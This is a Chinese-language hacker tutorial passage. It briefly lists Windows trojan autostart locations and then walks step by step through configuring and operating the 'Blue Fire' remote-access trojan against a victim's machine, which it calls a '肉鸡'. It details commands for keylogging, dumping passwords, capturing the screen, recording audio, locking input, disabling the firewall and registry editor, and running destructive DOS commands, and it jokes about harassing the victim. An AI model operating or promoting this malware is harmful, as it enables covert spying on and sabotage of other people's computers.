9. 启动组和Win.ini以及System.ini也是木马们喜欢的隐藏场所，要注意这些地方。比方说，Win.ini的[Windows]小节下的load和run后面在正常情况下是没有跟什么程序的；如果有了那就要小心了，看看是什么；在System.ini的[boot]小节的Shell=Explorer.exe后面也是加载木马的好场所，因此也要注意这里了。当你看到变成这样：Shell=Explorer.exe file.exe，请注意那个file.exe很有可能就是木马服务端程序！赶快检查吧。至于启动组，木马们如果隐藏在这里虽然不大隐蔽，但这里的确是自动加载运行的好场所，因此还是有木马喜欢在这里驻留的。启动组对应的文件夹为：C:\windows\start menu\programs\startup，在注册表中的位置：HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders Startup="C:\windows\start menu\programs\startup"。要注意经常检查这两个地方哦！

10. 对于下面所列文件也要勤加检查，木马们也很可能隐藏在这里：C:\windows\winstart.bat、C:\windows\wininit.ini、Autoexec.bat。

总体上看，网络公牛与冰河在功能上很相像。由于客户端没有嗅探和查找主机的功能，因此除了中木马者之外，其他人不能通过扫描器搜索到这个机子中了木马。这样它的危害就减小了许多。如果您用它来进行远程管理，和朋友联系——相互交流软件或MP3，那将会很方便、很有趣。从这个角度来看，网络公牛更是一款出色的远程管理软件。

### 1.2 超级木马——蓝色火焰

最近小生在网络上闲逛，猛然发现一新鲜木马名目：“蓝色火焰”。

### 软件功能简介

1. 这是一个没有客户端的木马，所谓无招胜有招，正因为如此，你机器里的几乎任何和网络相关的程序都可以用来控制他：Telnet、sterm、cterm、Zmud、Ftp、IE、Netscape、Opera、Flashget、Cuteftp……

由于没有客户端，你甚至可以跨平台控制，你可以登陆上Unix、linux主机，甚至某台路由器；用telnet、Ftp命令就可以对他进行控制管理，只要你愿意，Mac os X，也可以成为你的客户端控制平台。

2. 蓝色火焰与生俱来的网络特性是你可以通过一些代理服务器控制服务端，选择好的控制工具（推荐Sterm、Cuteftp）便可以实现用Socket代理控制，更好地隐藏了自己的IP，通过IE等浏览器还可以实现用http代理控制服务器。

3. 最新版本的蓝色火焰可以在Win9x/win2000/winnt下运行！由于NT系统本身安全问题，蓝色火……蓝色火焰中的一小部分功能在 Win2K/NT 下会受到限制，不像在 Win9X 下那样畅通无阻。（蓝色火焰最新版 0.5 Preview 版）

最重点的是：可以自行选择是否关闭天网防火墙！

前往蓝色火焰作者主页：http://qsoft.onchina.net

我们来下载该木马：（解压缩后有如下文件）

- bluefire配置器.exe……蓝色火焰 0.5 配置器
- readme.txt……自述文档
- help.txt……蓝色火焰详细帮助文档

## 蓝色火焰的使用方法

### 一、生成服务端

- 1. 先运行 bluefire配置器.exe（如图 1-2-1）
- 2. 配置蓝色火焰：（如图 1-2-2）





1-2-1

1-2-2

- a 先设置密码（就是我们将来进入肉鸡的“钥匙”）
- b 再设置端口（就是我们将来进入肉鸡要找的“门”）  
  telnet、ftp、http 服务端口可以随便改（只要你愿意……）
- c 最下面就是服务端的生成路径和服务端的名称（也可以随便改）
- 3. 请点击：生成服务端，OK！

你看一下你指定的路径是不是多了一个文件（如图 1-2-3），千万不要自己运行！否则你就是肉鸡！

### 二、连接服务端

当然在这之前还有一项大工程要做，那就是成功在你的目标计算机上种木马，这项工作十分艰巨，需要技巧与经验。如果您对这方面还比较陌生，可以找出前几期《黑客防线》上刊登的相关文章。

- 1. 我们先用 telnet 来连接：
  - a 先点“开始”——“运行”
  - b 输入：telnet xxx.xxx.xxx.xxx 19191  
    例如：telnet 192.168.0.15 19191（如图 1-2-4）
  - c 输入密码便得到蓝色火焰的提示符

```text
Bluefire->
```

> （该程序需要在这个提示符下输入命令，以达到远程控制目的）



1-2-3



1-2-4

好！我们现在已进入肉鸡。

### 三、命令详解

输入 help（如图 1-2-5）



1-2-5

解释一下命令：

- help 显示简要帮助信息
- exit 退出当前连接
- ver 显示版本信息
- list 列出当前进程
- passwd 列出记录的密码信息
- clearpw 清空记录的密码信息
- sysinfo 列出计算机的详细信息
- halt 挂起 screen，运行屏幕保护程序
- sice? 检测是否运行了 Soft-Ice，如果有就……
- force 注销当前用户
- logoff 注销
- shutdown 关机
- reboot 重启
- poweroff 强行关机
- snapexe 关联 exe……
- kill [Process ID] 杀死进程，格式如 kill ffc42ef5（其中 ffc42ef5 是进程号，可以用 list 命令得到）

举例：杀死他的 QQ  
a 先输入 list，得到结果如图 1-2-6，我们看见 QQ 的进程号为 FF138F5。



1-2-6

b 输入 kill ff138f5

c 我们看到屏幕显示“ok,nice!”  
好了，他的 QQ 死了！

```text
hide [desktop/taskbar/start/trayicon/clock] 隐藏……
如：隐藏桌面：hide desktop
隐藏任务栏：hide taskbar
隐藏开始按钮：hide start
隐藏右下角图标：hide trayicon
隐藏时钟：hide clock
(千万不要说你不知道这能做什么……试一下很好玩^^)
```

```text
show [desktop/taskbar/start/trayicon/clock] 显示……
显示 hide 隐藏的东西
如：显示桌面：show desktop
```

```text
disable [mouse/desktop/task/taskbar/start/cad] 锁定……
锁定鼠标：disable mouse
锁定桌面：disable desktop
锁定任务栏：disable task
锁定开始按钮：disable start
锁定 Ctrl+Alt+Delete：disable cad
```

```text
enable [mouse/desktop/task/taskbar/start/cad]
把 disable 锁定的解锁
如：解锁鼠标：enable mouse
```

```text
open [monitor/driver/ftp/http [dir]] 打开……
打开显示器：open monitor
```

打开光驱：open driver  
打开 FTP 服务器：

```text
open ftp
```

打开后就可以用各种 FTP 客户端控制，比如 CuteFTP、LeechFTP，甚至 FlashGet 的站点资源探索器都可以进行浏览和文件管理。  
打开 HTTP 服务器：

```text
open http c:\windows
```

这样表示以 c:\windows 为主目录进行 Web 发布，当然可以用 IE、Netscape、Opera 等等浏览器进行访问和下载文件。  
我们做个例子打开 HTTP 服务器：

- a 输入 open http
- b 显示 ok，nice！我们打开 IE 浏览，在地址栏中输入要连接的 IP（如图 1-2-7）



1-2-7

- c 接下来就可以进行管理！！！！

```text
close [monitor/driver/ftp/http]
```

关闭……  
对应上面的

```text
catch [Jpeg Filename]
```

捕获当前屏幕  
如 catch c:\screen.jpg  
然后可以 open http c: 打开 HTTP 服务器，  
在 IE 的地址栏里输入 http://XXX.XXX.XXX.XXX/screen.jpg 就可以浏览到屏幕图像

```text
changeb [on/off]
```

交换鼠标左右键 changeb on  
还原鼠标左右键 changeb off

```text
charspy [result/on/off]
```

```text
查看击键记录：charspy result

禁止键盘记录：charspy off

开启键盘记录：charspy on（注意默认情况下已经开启）

（记录各种按键，结果不存盘）
```

```text
keyspy [result/on/off/clear]

查看击键记录：keyspy result

禁止键盘记录：keyspy off

开启键盘记录：keyspy on（注意默认情况下已经开启）

清空键盘记录：keyspy clear

（这里和上面不同的是这里可以记录中文输入，并将结果存盘）
```

```text
snapexe 设置 EXE 文件关联

unsnapexe 解除 EXE 文件关联
```

```text
bladd [filename]/blview/blclear 黑名单管理（在关联了 exe 文件后黑名单生效）

将程序加入黑名单用法：

bladd regedit（禁用注册表编辑器）

bladd skynet（禁用天网）

bladd msconfig

bladd qq2000（这个太狠了，禁用 OICQ）

bladd windows（禁用 windows 目录下所有东西）

bladd …… 自己想加什么就加什么，看 XXX 不爽就 bladd XX

查看当前黑名单 blview

清空当前黑名单 blclear
```

```text
recstart [wav filename]/recstop/recstate

开始录制一段声音：recstart c:\test.wav

结束录制：recstop

显示录音机当前状态：recstate
```

```text
cmd [dos command line] 运行 DOS 命令：

如 cmd dir

cmd type c:\test.txt

cmd del c:\msdos.sys（呵呵，这个删掉就麻烦了）
```

```text
run [filename] 运行命令

如：run c:\test.wav

run c:\windows\system\msconfig.exe

run c:\screen.jpg
```

```text
chat [messages you want to send] 打开聊天窗口和被控机聊天
```

用法很简单，如：

```text
chat 你好
chat 你被我控制了
chat 你好可怜那
chat #（这个表示关闭聊天窗口）
```

changetelnetport [port] 远程修改 telnet 端口  
用法如 changetelnetport 23  
表示把 telnet 端口修改为 23  
服务端重启（restart）后生效

changeftpport [port] 远程修改 ftp 端口  
用法如 changeftpport 21  
表示把 ftp 端口修改为 21  
服务端重启（restart）后生效

changehttpport [port] 远程修改 http 端口  
用法如 changehttpport 80  
表示把 http 端口修改为 80  
服务端重启（restart）后生效

changepasswd [new password] 远程修改 telnet 密码  
用法如 changepasswd 123456  
表示把 telnet 密码修改为 123456  
服务端重启（restart）后生效



viewsetup 远程查看当前配置

restart 远程重启 bluefire 服务端，使修改的设置生效

### 四、如何使用 FTP 上传文件

以 CuteFTP 为例

- a 我们先建立服务器，先点 file -> new -----> ftpsite（如图 1-2-8）
- b 我们设置 ftp 服务器 label（随便填），host 填上要连接的 IP 地址（肉鸡地址），user 不用填，password 填上你设的密码，其他不用设置（如图 1-2-9）
- c 点 connect ……等一会儿……好了连接成功！（如图 1-2-10）





- d 点一下 localdrives（如图 1-2-11），现在我们可以上了。

### 五、如何清除

只有下载蓝色火焰清除器 blcleaner, V0.5。

清除器可以清除蓝色火焰 0.5 版本以及 0.5 以前版本的蓝色火焰。

用法：

打开清除器 2 秒钟即可自动完成对蓝色火焰的清除（清除结果如图 1-2-12）。

无招胜有招——就是如此！



